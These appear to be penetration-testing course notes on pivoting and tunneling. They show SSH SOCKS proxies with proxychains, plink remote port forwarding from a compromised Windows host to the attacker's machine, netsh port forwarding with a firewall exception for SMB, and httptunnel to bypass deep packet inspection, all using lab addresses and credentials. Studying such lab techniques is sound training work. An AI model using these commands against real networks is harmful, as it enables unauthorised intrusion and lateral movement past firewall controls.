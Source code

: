 		it allows us to set a local listening port and have it tunnel incoming traffic to any remote destination thru the use of a proxy
		On kali attacker machine: ssh -N -D <address to bind to>:<port to bind to> <username>@<SSH server address>
		On kali attacker machine: sudo ssh -N -D 127.0.0.1:8080 student@10.11.0.128
		This basically creates a socks4 proxy on port 8080. To have our kali tools use this proxy, we can use proxychains and edit its config file
		sudo nano /etc/proxychains.conf
		We add our socks4 proxy to the config file: socks4 127.0.0.1 8080
		Then, we can run our tools thru this proxy, we prepend our commands with proxychains, for example: proxychains nmap --top-ports=20 -sT -Pn 192.168.1.110
PLINK.exe:
	It is used to pivoting thru Windows operating systems (we need a System level shell). For example, we can exploit the SyncBreeze buffer overflow and gain System level access to the Windows machine. After enumerating the machine, we find a MySQL server running on the machine, but we cannot interact with it directly from our attacker kali machine because the firewall blocks port 3306
	PLINK.exe is a Windows-based command line SSH client
	To establish remote port forwarding: cmd.exe /c echo y | plink.exe -ssh-l kali -pw ilak -R 10.11.0.4:1234:127.0.0.1:3306 10.11.0.4
NETSH:
	netsh can be used on a Windows system (for example our Windows client), where there is the IP Helper service running and the network interface has IPv6 support enabled. Fortunately both are enabled by default on Windows. We can then use netsh to forward the SMB port 445 of a Windows server in the internal network to the port 4455 of the Windows client, so that we can then access with it from our attacker kali machine
	netsh interface portproxy add v4tov4 listenport=4455 listenaddress=10.11.0.22 connectport=445 connectaddress=192.168.1.110
	To verify the new listening port: netstat -ant TCP | find "4455"
	To add a firewall rule and allow incoming traffic on port 4455, being 455 blocked by default by the firewall: netsh advfirewall firewall add rule name="forward_port_rule" protocol=TCP dir=in localip=10.11.0.22 localport=4455 action=allow
	To test the port forwarding: smbclient -L 10.11.0.22 --port=4455 --user=Administrator
	Finally we can mount the share of the internal Windows server:
	sudo mkdir /mnt/win10_share
	sudo mount -t cifs -o port=4455 //10.11.0.22/Data -o username=Administrator,password=Qwerty09! /mnt/win10_share
HTTPTunneling through deep packet inspection:
	httptunnel is an tool useful in environments where some protocols are not allowed, for example environments where SSH is not allowed and where all SSH-based tunnels will not work. For example, we want to establish a RDP connection between our attacker kali machine and the Windows server in the internal network, via the debian client and with the firewall that only allows ports 80, 443 and 1234
	
	httptunnel works on a client-server based way (hts being the server and htc the client components) and needs to be installed in kali: sudo apt update && sudo apt install httptunnel
	From the debian client: ssh -L 0.0.0.0:8888:192.168.1.110:3389student@127.0.0.1
	Then we setup the httptunnel server on the debian client: hts --forward-port localhost:8888 1234
	Finally we setup the httptunnel client on our attacker kali machine: htc --forward-port 8080 10.11.0.128:1234
	At this point we can launch the RDP client against port 8080 of the kali machine and connect, thru the HTTP tunnel, bypassing firewall restrictions and using the ssh local port forwarding of the debian machine, to our final target that is the Windows server: rdesktop 127.0.0.1:8080
